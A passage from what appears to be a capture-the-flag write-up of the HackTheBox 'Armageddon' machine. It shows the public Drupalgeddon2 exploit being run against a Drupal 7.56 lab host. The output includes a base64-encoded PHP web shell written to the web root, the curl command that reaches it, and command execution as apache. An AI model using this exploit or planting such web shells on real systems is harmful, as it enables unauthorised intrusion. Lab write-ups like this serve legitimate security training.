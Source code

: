 There’s clearly a lot here. Drupalgeddon 2 and 3 both look like candidates.

## Shell as apache

### RCE - Drupalgeddon2

Given the number of exploits and the fact that the quality in `searchsploit` can be a bit all over the map, I went to Google, and found [this repo](https://github.com/dreadlocked/Drupalgeddon2). I’ll look at exactly what it’s doing in Beyond Root, but the repo itself works great. Running it provides a prompt:

```

oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo SNQOQAOF
[+] Result : SNQOQAOF
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> 

```

The prompt works like a shell:

```

armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

```
